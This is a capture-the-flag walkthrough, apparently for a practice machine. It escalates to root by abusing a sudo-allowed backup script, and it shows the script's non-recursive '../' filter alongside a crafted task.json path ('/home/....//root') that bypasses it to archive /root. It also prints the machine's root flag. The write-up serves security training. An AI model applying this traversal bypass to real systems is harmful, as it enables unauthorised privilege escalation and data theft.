










At this pont let's start by checking martin's current privileges and enumerating his home folder.
```bash
$ sudo -l 
```



We also find the backups folder in martin's directory, which contains an archive and the task.json file used to create it.

```bash
$ sudo /usr/bin/backy.sh
```


Let’s take a look at the `task.json` file. It appears to define which directories should be backed up and where the resulting archive will be stored.

```bash
$ cat task.json
```


Let’s inspect the `backy.sh` script to identify any insecure logic and understand how it handles the archive creation process.

```bash
$ cat /usr/bin/backy.sh
```


```bash
martin@code:~/backups$ cat /usr/bin/backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

```bash
$ sudo /usr/bin/backy.sh task.json
```



By understanding how `backy.sh` works, we will modify the `task.json` file to see if we can access the root directory. Since it creates compressed archives, generating one from the root folder may allow us to check if the flag is present.

```bash
$ nano task.json
```



We will modificate the “destination” and the “directories_to_achieve” like this;

```bash
{
        "destination": "/home/martin/",
        "multiprocessing": true,
        "verbose_log": true,
        "directories_to_archive": [
                "/home/....//root"
        ]
}
```

We use `..../` because the `backy.sh` script includes a restriction that prevents directory traversal: `updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")` By doing this, we are able to bypass the filter and evade the directory restriction.



Now we execute the `backy.sh` script with the modified `task.json` file and see that the entire root directory has been archived. When we extract the archive, we find the root flag.
```bash
$ sudo /usr/bin/backy.sh task.json

$ tar -xf code_home_.._root_2026_January.tar.bz2
```







```bash
Root Flag → aae50e70147ea443ea01d990b470489e
```

[Back](README.md)